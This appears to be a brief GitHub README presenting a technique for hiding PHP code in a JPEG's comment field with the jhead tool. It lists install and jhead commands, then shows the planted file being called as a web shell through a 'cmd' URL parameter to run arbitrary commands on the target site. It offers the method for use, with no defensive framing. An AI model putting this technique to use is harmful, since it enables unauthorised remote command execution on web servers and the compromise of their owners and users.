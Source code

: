 # Inject-PHP-to-JPG-Using-Jhead

$ pkg install vim or apt-get install vim

$ pkg install jhead or apt-get install jhead

$ jhead -h (for help)

$ jhead -purejpg yourfiles.jpg

$ jhead -ce yourfiles.jpg

$ jhead yourfiles.jpg

Example : site.com/youfiles.php?cmd=Command Here

![IMG_20220114_032121](https://user-images.githubusercontent.com/59664965/149403478-971702dc-e545-4865-8ebe-8251ed315f90.jpg)
